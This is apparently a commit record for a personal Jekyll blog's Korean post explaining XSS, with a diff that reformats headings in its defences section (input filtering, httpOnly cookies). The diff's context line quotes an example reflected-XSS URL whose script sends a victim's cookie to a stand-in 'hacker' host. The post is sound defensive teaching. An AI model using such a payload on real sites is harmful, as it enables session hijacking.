

Before and after one commit to mniYUNSU/mniYUNSU.github.io, a Jekyll site: the page built from _posts/network-xss/2021-11-08-network-xss.md, in a window 1280 px wide and 900 px high, scrolled down 2707 px. Shown: the whole window, without its empty margins (277-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
포스팅: XSS란?

```diff
--- a/_posts/network-xss/2021-11-08-network-xss.md
+++ b/_posts/network-xss/2021-11-08-network-xss.md
@@ -53,13 +53,13 @@ http://service.com?search=<script>location.href('http://hacker/cookie.php?value=
 
 # 대응 방안
 
-1. 필터 사용
+##### 1. 필터 사용
 
 유저가 `input` 태그에 텍스트를 입력해야하는 경우, 이 때 필터를 적용할 수 있다. 개인이 만든 필터보다는 전문적인 보안 업체나 기업에서 만든 것이 공신력있고 편하게 사용할 수 있다. 주로 <a href="https://wiki.owasp.org/index.php/Category:OWASP_AntiSamy_Project" target="_blank" rel="noopener">OWASP Antisamy</a>가 있다.
 
 예를 들면, 텍스트가 입력되어 서버로 요청하기 전에 검증을 하여 대응할 수 있다. `input` 태그에 만약 `<` 또는 `>` 같은 태그 문자(`<script>` 방지)를 입력했을 때 이를 필터링한다. 이 때 출력되는 값을 `<` 와 같은 태그 문자 대신 HTML 문자로 변환하여 출력한다. 이렇게 하면 `<` 문자는 `&lt;` 로 변경된다. 즉, HTML 문서는 `&lt;script&gt;` 로 인식하여 `<script>` 태그 속의 코드는 실행되지 않는다.
 
-2. 쿠키 보안 옵션 사용
+##### 2. 쿠키 보안 옵션 사용
 
 쿠키를 생성할 때 보안 옵션을 사용하여 웹 브라우저 상에서만 쓸 수 있도록 해야 한다. Node 환경에서 Express를 사용한다면, `httpOnly` 옵션을 쿠키에 지정하여 웹 브라우저상에서만 쿠키를 사용할 수 있다.
 
```
